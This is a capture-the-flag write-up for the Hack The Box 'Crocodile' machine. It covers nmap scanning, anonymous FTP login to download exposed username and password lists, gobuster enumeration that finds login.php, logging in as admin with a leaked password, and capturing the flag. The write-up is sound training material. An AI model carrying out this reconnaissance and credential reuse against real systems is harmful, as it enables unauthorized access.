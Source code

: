 # Crocodile
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Crocodile
* Topic: [[PHP]] [[FTP]] [[gobuster]]
* Difficulty: Very easy
* Date: 13-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What nmap scanning switch employs the use of default scripts during a scan? 
 - **-sC**
2. What service version is found to be running on port 21? 
- **vsftpd 3.0.3**
3. What FTP code is returned to us for the "Anonymous FTP login allowed" message? 
- **230**
4. What command can we use to download the files we find on the FTP server? 
- **get**
5. What is one of the higher-privilege sounding usernames in the list we retrieved? 
- **admin**
6. What version of Apache HTTP Server is running on the target host? 
- **2.4.4**
7. What is the name of a handy web site analysis plug-in we can install in our browser? 
- **Wappalyzer**
8. What switch can we use with gobuster to specify we are looking for specific filetypes? 
- **-x**
9. What file have we found that can provide us a foothold on the target? 
- **login.php**

---
## Flag:
Nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.52.16
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 14:18 EDT
Nmap scan report for 10.129.52.16
Host is up (0.072s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

We can see that ftp is hosted on port 21, also it os open and we can see two files in plain sight. We will use `ftp` to connect and `get` to download the files to our local machine

Type `exit` to gracefully close the connection afterwards.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.21.75
Connected to 10.129.21.75.
220 (vsFTPd 3.0.3)
Name (10.129.21.75:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||47650|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |******************************************|    33      228.55 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.44 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||47203|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |******************************************|    62      438.74 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.91 KiB/s)
ftp> exit
221 Goodbye.

┌──(kali㉿kali)-[~/Downloads]
└─$ ll
total 8
-rw-r--r-- 1 kali kali 33 Jun  8  2021 allowed.userlist
-rw-r--r-- 1 kali kali 62 Apr 20  2021 allowed.userlist.passwd
```

We got the files, let's see what they contain using `cat`.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
                     
┌──(kali㉿kali)-[~/Downloads]
└─$ cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd

```

Some users and their passwords, let's find a place to log in.

![](./attachments/Pasted%20image%2020220413002627.png)

There are no login options anywhere on the page.

We can use `gobuster` to enumerate (bruteforce) hidden directories.

Command:

`gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html`

`--url`: Specify the url (directory) we want to enumerate.

`dir`: Enumerate directories, not DNS ex.

`--wordlist`: Use this list (list of common directory names).

`-x`: Find files in .php and .html format.

```console
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url 10.129.124.147 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.124.147
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/04/12 18:30:03 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 58565]
/login.php            (Status: 200) [Size: 1577] 
Progress: 312 / 262995 (0.12%)
```

`/login.php` seems useful.

![](./attachments/Pasted%20image%2020220413003253.png)

Now we can try the credentials we found.

User:pass `admin:rKXM59ESxesUFHAd`

![](./attachments/Pasted%20image%2020220413003420.png)

The flag.

**Flag:** `c7110277ac44d78b6a9fff2232434d16`

---
**Tags:** [[HackTheBox]]